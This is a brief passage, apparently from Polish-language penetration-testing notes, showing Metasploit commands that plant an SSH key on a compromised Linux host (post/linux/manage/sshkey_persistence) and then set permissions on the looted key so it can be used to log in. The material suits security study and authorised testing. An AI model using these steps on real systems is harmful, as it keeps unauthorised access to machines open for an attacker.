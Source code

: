 ```bash
# METASPLOIT
search persistence # wiele róznych mozliwości
use post/linux/manage/sshkey_persistence
set CREATESSHFOLDER true
chmod 0400 /.../loot/ssh_key # zmiana uprawnień pliku utworzonego w loot, pozwala zalogowac się za jego pomocą
```
